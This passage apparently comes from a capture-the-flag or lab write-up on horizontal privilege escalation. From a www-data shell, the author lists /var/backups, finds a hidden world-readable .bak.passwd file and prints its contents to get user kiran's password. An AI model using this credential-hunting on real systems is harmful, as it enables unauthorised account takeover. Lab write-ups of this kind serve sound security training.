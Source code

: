 ## Horizontal Privilege Escalation

I enumerate the `/var/` path and explore the `backups` directory contains a hidden `.bak.passwd` file:

```
www-data@ubuntu-xenial:/var/backups$ ls -la
ls -la
total 636
drwxr-xr-x  2 root root     4096 Dec  9  2020 .
drwxr-xr-x 14 root root     4096 Dec  6  2020 ..
-r--r--r--  1 root root     1722 Dec  6  2020 .bak.passwd
-rw-r--r--  1 root root    51200 Dec  6  2020 alternatives.tar.0
-rw-r--r--  1 root root     6308 Dec  9  2020 apt.extended_states.0
-rw-r--r--  1 root root      715 Dec  6  2020 apt.extended_states.1.gz
-rw-r--r--  1 root root      509 Nov 12  2020 dpkg.diversions.0
-rw-r--r--  1 root root      207 Dec  6  2020 dpkg.statoverride.0
-rw-r--r--  1 root root   547201 Dec  6  2020 dpkg.status.0
-rw-------  1 root root      849 Dec  6  2020 group.bak
-rw-------  1 root shadow    714 Dec  6  2020 gshadow.bak
-rw-------  1 root root     1695 Dec  6  2020 passwd.bak
-rw-------  1 root shadow   1031 Dec  6  2020 shadow.bak
```

Read that file and I get the password of user **kiran**:

```
www-data@ubuntu-xenial:/var/backups$ cat .bak.passwd
cat .bak.passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
kiran:x:1002:1002:[REDACTED]:/home/kiran:
```
